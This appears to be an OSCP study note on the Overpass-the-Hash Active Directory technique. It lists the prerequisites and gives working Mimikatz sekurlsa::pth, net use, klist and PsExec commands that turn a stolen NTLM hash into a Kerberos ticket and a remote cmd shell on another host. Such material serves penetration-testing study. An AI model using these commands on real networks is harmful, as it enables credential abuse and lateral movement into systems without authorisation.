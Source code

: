 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/4. Overpass-the-Hash/"}
---
```


----------
- Use NTLM user hash to gain full Kebreros Ticket Grantin Ticket (TGT), and then obtain Ticket Granting Service (TGS)
- Allows to pass NTLM hash to run services that requires Kerberos instead
- Requires:
	- Local admin privileges
	- NTLM hash of user

----------
### Overpass-the-Hash Remote Shell using Mimikatz:
1. Run Mimikatz and enable debug.
2. Create TGT:
```
sekurlsa::pth /user:<targetuser> /domain:<domain> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
3. Obtain ticket by authenticating to network share:
```
net use \\files04
```
4. Analyze ticket:
```
klist
```
5. Run PsExec and launch cmd using ticket:
```
.\PsExec.exe \\files04 cmd
```

